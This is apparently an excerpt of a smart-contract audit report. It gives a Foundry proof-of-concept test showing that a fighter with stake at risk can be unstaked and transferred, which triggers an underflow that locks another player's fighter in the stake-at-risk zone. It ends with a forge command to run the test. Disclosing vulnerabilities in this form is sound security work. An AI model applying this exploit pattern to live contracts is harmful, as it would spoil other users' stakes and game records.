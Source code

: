 ```diff
+    uint8 fighter2 = 1;
+    _fundUserWith4kNeuronByTreasury(player2);
+    return (player1, player2, fighter1, fighter2);
+}
+
+/// @notice An exploit demonstrating that it's possible to transfer a fighter with funds at stake
+/// @notice After transferring the fighter, it wins the battle, 
+/// @notice and the second player can't exit from the stake-at-risk zone anymore.
+function testExploitTransferStakeAtRiskFighterAndSpoilOtherPlayer() public {
+    (address player1, address player2, uint8 fighter1, uint8 fighter2) = 
+        preparePlayersAndFighters();
+    vm.prank(player1);
+    _rankedBattleContract.stakeNRN(1_000 * 10 **18, fighter1);        
+    vm.prank(player2);
+    _rankedBattleContract.stakeNRN(1_000 * 10 **18, fighter2);        
+    // Fighter1 loses a battle
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter1, 0, 2, 1500, true);
+    assertEq(_rankedBattleContract.amountStaked(fighter1), 999 * 10 ** 18);
+    // Fighter2 loses a battle
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter2, 0, 2, 1500, true);
+    assertEq(_rankedBattleContract.amountStaked(fighter2), 999 * 10 ** 18);
+
+    // On the game server, player1 initiates a battle with fighter1,
+    // then unstakes all remaining stake from fighter1, and transfers it
+    vm.prank(address(player1));
+    _rankedBattleContract.unstakeNRN(999 * 10 ** 18, fighter1);
+    vm.prank(address(player1));
+    _fighterFarmContract.safeTransferFrom(player1, player2, fighter1, "");
+    assertEq(_fighterFarmContract.ownerOf(fighter1), player2);
+    // Fighter1 wins a battle, and part of its stake-at-risk is derisked.
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter1, 0, 0, 1500, true);
+    assertEq(_rankedBattleContract.amountStaked(fighter1), 1 * 10 ** 15);
+    // Fighter2 wins a battle, but the records can't be updated, due to underflow!
+    vm.expectRevert();
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter2, 0, 0, 1500, true);
+    // Fighter2 can't ever exit from the losing zone in this round, but can lose battles
+    vm.prank(address(_GAME_SERVER_ADDRESS));
+    _rankedBattleContract.updateBattleRecord(fighter2, 0, 2, 1500, true);
+    (uint32 wins, uint32 ties, uint32 losses) = _rankedBattleContract.getBattleRecord(fighter2);
+    assertEq(wins, 0);
+    assertEq(ties, 0);
+    assertEq(losses, 2);
+}
+
     /*//////////////////////////////////////////////////////////////
                                HELPERS
     //////////////////////////////////////////////////////////////*/
```
Place the PoC into test/RankedBattle.t.sol, and execute with
```shell
forge test --match-test testExploitTransferStakeAtRiskFighterAndSpoilOtherPlayer
```
